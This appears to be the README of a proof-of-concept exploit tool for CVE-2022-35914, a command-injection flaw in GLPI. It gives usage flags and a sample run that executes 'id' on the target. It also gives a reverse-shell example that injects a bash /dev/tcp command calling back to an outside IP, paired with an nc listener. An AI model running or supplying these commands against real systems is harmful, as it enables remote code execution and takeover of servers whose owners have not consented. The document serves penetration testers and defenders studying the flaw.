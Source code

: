 # CVE-2022-35914 PoC

## References

- https://github.com/glpi-project/glpi/security/advisories/GHSA-c5gx-789q-5pcr
- https://github.com/cosad3s/CVE-2022-35914-poc (Credit to Sébastien Copin for the PoC I adapted here)


Check out my full writeup here: https://link.medium.com/tBwDlpQl3Ib 

## Usage

```bash
pip install -r requirements.txt
```

```
python3 CVE-2022-35914.py -h
usage: CVE-2022-35914.py [-h] -u URL [-c CMD] [-f HOOK] [-b CALLBACK] [--check] [--user-agent USER_AGENT]

CVE-2022-35914 - GLPI - Command injection using a third-party library script

options:
  -h, --help            show this help message and exit
  -u URL                URL to test
  -c CMD                Command to launch (default: id)
  -f HOOK               PHP hook function (default: array_map)
  -b CALLBACK           PHP callback function (default: system)
  --check               Just check, no command execution.
  --user-agent USER_AGENT
                        Custom User-Agent
```

Example:
```bash
python3 CVE-2022-35914.py -u http://glpi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Revshell:
```bash
python3 CVE-2022-35914.py -u http://192.168.249.242 -c 'bash -c "bash -i >& /dev/tcp/192.168.45.154/80 0>&1"'

nc -lvnp 80
```
